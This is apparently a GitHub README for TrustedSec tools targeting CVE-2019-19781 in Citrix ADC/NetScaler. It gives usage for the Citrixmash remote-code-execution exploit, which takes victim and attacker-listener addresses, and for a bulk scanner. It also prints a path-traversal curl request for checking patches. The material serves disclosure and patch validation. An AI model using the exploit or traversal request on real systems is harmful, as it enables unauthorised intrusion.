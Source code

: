 # CVE-2019-19781

This was only uploaded due to other researchers publishing their code first. We would have hoped to have had this hidden for awhile longer while defenders had appropriate time to patch their systems.

We are all for responsible disclosure, in this case - the cat was already out of the bag.

Exploits: CVE-2019-19781

## Citrixmash (CVE-2019-19781 exploit)

root@stronghold-nix:/home/relik/Desktop/git/cve-2019-19781# python citrixmash.py 

Citrixmash v0.1 - Exploits the Citrix Directory Traversal Bug: CVE-2019-19781
Tool Written by: Rob Simon and Dave Kennedy
Contributions: The TrustedSec Team 
Website: https://www.trustedsec.com
INFO: https://www.trustedsec.com/blog/critical-exposure-in-citrix-adc-netscaler-unauthenticated-remote-code-execution/
Forensics and IOCS: https://www.trustedsec.com/blog/netscaler-remote-code-execution-forensics/

This tool exploits a directory traversal bug within Citrix ADC (NetScalers) which calls a perl script that is used
to append files in an XML format to the victim machine. This in turn allows for remote code execution.

Be sure to cleanup these two file locations:
    /var/tmp/netscaler/portal/templates/
    /netscaler/portal/templates/

Note that DNS hostnames and IP addresses are supported in victimaddress and attackerip_listener fields.

Usage:

python citrixmash.py <victimaddress> <victimport> <attackerip_listener> <attacker_port>

usage: citrixmash.py [-h] target targetport attackerip attackerport

## CVE-2019-19781 Scanner

This is a simple test to see if the server is still vulnerable to CVE-2019-19781.

Usage: python3 cve-2019-19781.py <serverip> <serverport>

Note you can use CIDR notations such as 192.168.1.1/24 and hostnames as well.

It will result if the server is still vulnerable or not. You can only do one server at a time.

CVE-2019-19781-Scanner
Company: TrustedSec
Written by: Dave Kennedy
This will look to see if the remote system is still vulnerable to CVE-2019-19781. This 
will only scan one host at a time.
You can use CIDR notations as well for example: 192.168.1.1/24
You can use hostnames instead of IP addresses also.
You can also use a file with IP addresses generated by an external tool.

Example: python3 cve-2019-19781_scanner.py 192.168.1.1/24 443
Example2: python3 cve-2019-19781_scanner.py 192.168.1.1 443
Example3: python3 cve-2019-19781_scanner.py fakewebsiteaddress.com 443
Example4: python3 cve-2019-19781_scanner.py as15169 443
Example5: python3 cve-2019-19781_scanner.py 192.168.1.1/24 443 verbose
Example6: python3 cve-2019-19781_scanner.py file:hostfile 443

Usage: python3 cve-2019-19781_scanner.py targetip targetport

usage: cve-2019-19781_scanner.py [-h] target targetport [verbose]


## Manually Validate Patch

If you want to test to see if this exposure is mitigated use the following:

`curl https://host/vpn/../vpns/cfg/smb.conf --path-as-is`

Or if you are using non public or internal enterprise CA, you can override using the --insecure option

`curl https://host/vpn/../vpns/cfg/smb.conf --path-as-is --insecure`

Either a 403 means that you are patched or if it returns a Citrix website and NOT the smb.conf file itself.

If you can see smb.conf, then you are vulnerable.

## Installation

To install the requirements, you will need to run the command below. 

pip3 install -r requirements.txt

